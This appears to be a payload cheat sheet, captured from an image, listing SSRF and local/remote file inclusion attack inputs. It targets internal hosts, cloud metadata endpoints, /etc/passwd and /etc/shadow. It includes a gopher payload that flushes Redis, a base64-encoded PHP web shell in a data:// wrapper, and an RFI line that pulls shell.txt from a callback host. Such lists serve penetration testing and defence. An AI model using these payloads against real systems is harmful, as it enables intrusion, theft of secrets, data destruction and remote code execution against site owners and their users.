 **3. Server-Side Request Forgery (SSRF)**

```
# === Internal Hosts & IPs ===
http://127.0.0.1
http://localhost
http://[::1]
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.0.0.1:3306
http://127.0.0.1:6379
http://10.0.0.1
http://192.168.1.1
http://metadata.google.internal/computeMetadata/v1/instance/
http://169.254.169.254/latest/meta-data/
http://instance-data/latest/meta-data/

# === Protocol Wrappers & Bypasses ===
file:///etc/passwd
file:///c:/windows/win.ini
dict://127.0.0.1:6379/info
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
http://127.1/
http://0/
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://[::]
http://0000::1
http://2130706433/ (127.0.0.1 in decimal)
http://0x7f000001/ (127.0.0.1 in hex)
http://{{TARGET_HOST}}@{{CALLBACK_URL}}/
http://{{CALLBACK_URL}}#{{TARGET_HOST}}/
  
```

**4. Remote & Local File Inclusion (RFI/LFI)**

```
# === LFI Payloads ===
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../windows/win.ini
/var/log/apache2/access.log
/var/log/nginx/access.log
/proc/self/environ
/proc/self/cmdline
/etc/shadow
C:\boot.ini

# === Wrappers & Encoding Bypasses (PHP) ===
php://filter/convert.base64-encode/resource={{TARGET_FILE}}
php://filter/read=string.rot13/resource={{TARGET_FILE}}
php://input
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
zip://./archive.zip#shell.php
expect://{{CMD}}

# === Traversal Bypasses ===
....//....//....//....//etc/passwd
..%2f..%2f..%2f..%2fetc/passwd
..%c0%af..%c0%af..%c0%afetc/passwd
../../../../etc/passwd%00

# === RFI Payloads ===
http://{{CALLBACK_URL}}/shell.txt
```